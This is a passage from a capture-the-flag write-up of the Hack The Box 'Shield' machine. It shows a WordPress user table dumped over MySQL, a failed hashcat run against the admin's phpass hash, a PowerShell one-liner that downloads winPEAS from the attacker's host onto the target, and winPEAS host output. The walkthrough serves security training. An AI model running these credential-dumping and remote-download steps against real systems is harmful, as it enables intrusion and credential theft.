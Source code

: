 ```txt
mysql --user=wordpressuser124 --password='P_-U9dA6q.B|' --database=wordpress124 -e "select * from wp_users;"

ID	user_login	user_pass	user_nicename	user_email	user_url	user_registered	user_activation_key	user_status	display_name
1	admin	$P$Bgz58wVx7mKpwW3AcNv6VNstbMeyQ30	admin	shield@hackthebox.eu		2020-02-04 15:40:47	1622581404:$P$BrWeD9Vdxf2/vtWQsEO7hJAlOAGkMQ0	0	admin
```

With a help of [WP Sec resource](https://blog.wpsec.com/cracking-wordpress-passwords-with-hashcat/) I'm trying to guess the password stored in `pass.hash` using `rockyou` wordlist:

```sh
$ hashcat -O -m 400 -a 0 -o pass.txt pass.hash /usr/wl/rockyou.txt
```

Meanwhile, I'm dumping data from other tables, but nothing useful come up.

In a gesture of resignation I'm downloading the [winPEAS](/linpeas) from my Python simple server.

```plaintext
(New-Object System.Net.WebClient).DownloadFile('http://10.10.XX.XXX/pea3r3efr.exe','pea3r3efr.exe');
```

At that time `hashcat` finished its work and because he didn't manage to guess it, with high probability this is a dead end.

```txt
Session..........: hashcat
Status...........: Exhausted
Hash.Name........: phpass
Hash.Target......: $P$Bgz58wVx7mKpwW3AcNv6VNstbMeyQ30
Time.Started.....: Sat Jun  5 20:37:23 2021 (10 mins, 25 secs)
Time.Estimated...: Sat Jun  5 20:47:48 2021 (0 secs)
Guess.Base.......: File (/usr/wl/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    17321 H/s (4.31ms) @ Accel:1024 Loops:256 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
```

[Back to top](#contents) ⤴

# Vulnerability scanning

Some of the more interesting findings from `winPEAS`

## Host details

```plaintext
Hostname: Shield
    Domain Name: MEGACORP.LOCAL
    ProductName: Windows Server 2016 Standard
    EditionID: ServerStandard
    ReleaseId: 1607
    BuildBranch: rs1_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: True
    Current Time: 6/2/2021 4:09:48 PM
    HighIntegrity: False
```